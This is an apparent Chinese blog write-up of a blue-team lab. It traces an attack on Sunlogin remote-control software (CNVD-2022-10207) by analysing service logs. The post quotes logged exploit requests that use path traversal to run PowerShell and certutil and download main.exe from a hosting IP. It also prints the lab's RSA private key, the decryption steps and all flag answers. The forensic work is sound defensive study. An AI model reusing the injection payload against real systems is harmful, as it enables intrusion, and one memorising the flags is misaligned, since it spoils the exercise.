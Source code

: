 ```yaml
---
title: 【玄机靶场】第四章 windows 实战-向日葵
date: 2025-09-05
categories:
  - 靶场
  - 蓝队
image: images/40.webp
---
```

# 简介
第四章 windows实战
Administrator xj@123456
# flag1
**通过本地 PC RDP到服务器并且找到黑客首次攻击成功的时间为多少,将黑客首次攻击成功的时间为作为 FLAG 提交(2028-03-26 08:11:25.123);**
1.获取向日葵日志文件：
![Pasted image 20250325135003](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250325135003.png)
然后一个一个进行排查，发现sunlogin_service.20240321-191046文件内容比较多，拖出来进行分析：
先排查一下日志文件中有多少IP地址,每个IP有多少条日志：
```php
grep -oE '\b([0-9]{1,3}\.){3}[0-9]{1,3}\b' xrk.log | sort | uniq -c
```
![Pasted image 20250325135111](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250325135111.png)
```
      2 0.0.0.0           
      2 1.1.1.1           
      4 127.0.0.1         
      2 127.1.1.1         
    594 192.168.31.114    
   1696 192.168.31.45     
      1 192.168.52.150    
   1651 47.111.107.239    
   1660 47.111.169.221    
      1 47.111.228.106
```
排除掉一些默认地址，然后一个IP一个IP进行查。
发现192.168.31.45有很多恶意的访问路径。
分析下来发现是尝试在利用CNVD-2022-10207：向日葵远程控制软件 RCE 漏洞。
**CNVD-2022-10207** 漏洞是一种远程命令执行漏洞，存在于向日葵远程控制软件中。攻击者可以通过特制的 HTTP 请求利用此漏洞，执行任意命令或代码。
```php
grep  "192.168.31.45" xrk.log
```
![Pasted image 20250325135521](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250325135521.png)
提取时间：
flag
```
flag{2024-03-26 10:16:25.585}
```
# flag2
**通过本地 PC RDP到服务器并且找到黑客攻击的 IP 为多少,将黑客攻击 IP 作为 FLAG 提交;**
根据flag1,可以看出黑客IP为：192.168.31.45
flag
```php
flag{192.168.31.45}
```
# flag3
**通过本地 PC RDP到服务器并且找到黑客托管恶意程序 IP 为,将黑客托管恶意程序 IP 作为 FLAG 提交;**
根据日志信息，可以看出：
![Pasted image 20250325140253](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250325140253.png)
![Pasted image 20250325140213](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250325140213.png)
```
192.168.31.45:49329,/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe certutil -urlcache -split -f http://192.168.31.249/main.exe, plugin:check, session:sobGzXzWBfSlSbdqnmkUbJMLEjhssRx1
```
- **恶意活动指示**：
    - **路径遍历**：`/check?cmd=ping....` 是一种路径遍历尝试，试图访问系统中的`powershell.exe`。
    - **命令执行**：使用 `certutil` 工具下载文件 `main.exe`。
    - **外部IP**：下载源 `http://192.168.31.249/main.exe` 指向一个可能托管恶意程序的外部服务器。
- **恶意程序下载**：
    - **工具使用**：`certutil` 是一个合法的Windows工具，但在这里被用于下载恶意文件，这是一个常见的攻击模式。
    - **下载目标**：目标文件 `main.exe` 可能是恶意程序。
flag
```
flag{192.168.31.249}
```
# flag4
**找到黑客解密 DEC 文件,将黑客DEC 文件的 md5 作为 FLAG 提交;**
从日志里找一下DEC，看有没有信息
![Pasted image 20250325140738](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250325140738.png)
但并没有找到这个文件信息。但是我们看日志，发现一个qq.txt文件。
![Pasted image 20250325140823](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250325140823.png)
```
2024-03-26 10:39:11.031 - Info  -       [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:49884, path: /check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe echo 647224830 > qq.txt, version: HTTP/1.1
```
搜索QQ群，发现了玄机的靶场群。
![Pasted image 20250325140923](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250325140923.png)
![Pasted image 20250325141055](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250325141055.png)
找到文件：
使用命令，对文件进行MD5加密
```
md5sum DEC.pem
```
![Pasted image 20250325141149](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250325141149.png)
flag
```
flag{5ad8d202f80202f6d31e077fc9b0fc6b}
```
# flag5
**通过本地 PC RDP到服务器并且解密黑客勒索软件,将桌面加密文件中关键信息作为 FLAG 提交;**
**先使用RSA解到密钥：**
Flag4的DEC.pem文件就是rsa的私钥，不过格式需要稍加修改，将Private key改成大写即可
PEM格式密钥：
```
-----BEGIN RSA PRIVATE KEY-----
MIICXQIBAAKBgQDWQqpkHRKtRu66MjTrNZC13A6rIlGaJBd/FYBy4ifiITasCnQE
J9aRTIYQsM5iincecnvY8xGYMg5pVTp6P4fxS4/+1bAEciRXSTCmLI8FeDd3sjOc
HTw82sG0hfnnb0b/LFhbOCk7BgLnpwvSy5za/dtVQFSDbQbQuTBp029AKwIDAQAB
AoGBAKh6952NtvgGhQZpIG+sSUSX6/jqHZzFsKw/7idoatBIKcOS3LO/19udfvZ0
8XVPSGfqwjRQvo8dHXP6juc+Odg1XOLPw4fjjJz9b9dLKCKwtIU3CwA1AmuhYNGp
1OXlHLyUaNVTN3TZN9Dn7txD4gOvLIirqbmhzy/N7PdPF5ThAkEA4MB++5DSY7Kv
MO1uHuxTr/jRy6754Mzgo0fpLBXSB13/nLMxRA6QEbigoAFpsFd36EYMKzftbezB
gx2nphvLUwJBAPQMv730MqCWjaCPLgYRV+oMU6OnOMs6+ALql+I1eVqVfBAt+5De
HMxY7mWdaR9pofzuz+6KkmwRHqKSVw45dMkCQFJ68l76B+vkoFxxVe9tRU0YIE4C
mdtA9NOXSWAPZfOkMHFeZZ8XRRHr0q7FtfasMuoAAuk9bhngQCgREvxnyNcCQGnt
trQecHMfpe2Q+CsOEBi4rP0VsiMUP14UsUQwbbIRvD3Rl6WzotBXsXJNtrk5wmPk
zD//ybo6XA+4cSztZ3ECQQC92ck1XJm7V12SOFqHcNXFoS8tFvgNQXNEahmhJ2wb
xTo0VwUhCeG1n8X5PqRn6Rcsh8YQAt924YrWtcTxrg8g
-----END RSA PRIVATE KEY-----
```
要加密的内容
![Pasted image 20250325142957](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250325142957.png)
```
N2xTZ2Bsn2Y5lve7KZ36bgsFjqncBs55VO0zkeEIr5Iga/kbegA0BAstotBWnZ16+trNfkzl3apUobodMkC8covEo22p+kWAyVjMRyJ98EQ4Pspr/Y5HIuH0xuvPa82j7b0AMJHkyd2viuymI/mrxjJk2X0xlEE4YVioMLd22+w=
```
![Pasted image 20250325142846](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250325142846.png)
解密：
```
NXVJSTQUAPGTXKSX
```
**然后再AES解密：**
需要解密的内容：
```
0sWK8adKSGh1Xaxo6n1mZFoyNDYVokXwkBhxnzxU+MEJIV44u48SdOiFzWLn849hObaP6z26lLtMnXaDUnAPuMh+nF2hw9RoAsur7KYxE8/iY/y4jOEBsHT5wvQldcNfntrDyMUCvrWTUHl2yapUmaIIf2rZsNsqMVJ9puZzp58+FJmulyC7R1C2yoP1jHhsdOkU7htbzUWWsm2ybL+eVpXTFC+i6nuEBoAYhv2kjSgL8qKBFsLKmKQSn/ILRPaRYDFP/srEQzF7Y4yZa4cotpFTdGUVU547Eib/EaNuhTyzgOGKjXl2UYxHM/v0c3lgjO7GDA9eF3a/BBXPAgtK126lUfoGK7iSAhduRt5sRP4=
```
密钥：
```
NXVJSTQUAPGTXKSX
```
iv偏移量是16个0
![Pasted image 20250325143151](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250325143151.png)
获得答案：
```
@suanve
时间是连续的，年份只是人类虚构出来用于统计的单位，2024年第一天和2023年最后一天，
不会有任何本质区别。你的花呗，你的客户,你的体检报告，窗外的寒风，都不会因为这是新的一年，
而停下对你的毒打。
GIVE YOU FLAG!!!!!
flag{EDISEC_15c2e33e-b93f-452c-9523-bbb9e2090cd1}
```
flag
```php
flag{EDISEC_15c2e33e-b93f-452c-9523-bbb9e2090cd1}
```